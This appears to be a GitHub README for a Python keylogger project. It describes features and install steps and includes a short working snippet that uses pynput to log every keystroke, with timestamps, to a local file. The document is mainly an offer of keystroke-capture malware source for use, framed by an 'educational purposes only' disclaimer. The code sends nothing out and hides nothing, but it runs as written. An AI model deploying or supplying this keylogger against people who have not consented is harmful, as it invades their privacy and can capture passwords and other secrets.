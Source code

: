 # Software-Keylogger-Timestamp


Keylogger with Timestamp 🛡️

Overview  
This project is a Python-based **Keylogger** that records keystrokes and timestamps them. It is designed for educational purposes and showcases how to monitor and log keyboard activity efficiently.  

Features  
- Logs every keystroke with precise **timestamps**.  
- Saves logs in a structured file for easy analysis.  
- Lightweight and easy to integrate into different systems.  

Prerequisites  
- Python 3.x  
- Libraries:  
  - `pynput` (for listening to keyboard events)  
  - `datetime` (for timestamping the logs)  

Install the required libraries:  
```bash
pip install pynput
```

How It Works  
1. The program listens to keyboard inputs using the `pynput` library.  
2. Each keystroke is logged along with its timestamp using Python's `datetime` module.  
3. The logs are saved in a text file (`keylogs.txt`).  

Usage  
1. Clone this repository:  
   ```bash
   git clone <repository-url>
   cd keylogger-with-timestamp
   ```
2. Run the script:  
   ```bash
   python keylogger.py
   ```
3. View the recorded logs in the `keylogs.txt` file.  

Code Example  
Here’s a snippet of the keylogging functionality:  
```python
from pynput import keyboard
from datetime import datetime

def on_press(key):
    with open("keylogs.txt", "a") as file:
        file.write(f"{datetime.now()}: {key}\n")

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

Disclaimer  
This tool is for **educational purposes only**. Unauthorized use may violate privacy laws. Use responsibly!  

License  
This project is licensed under the MIT License.  

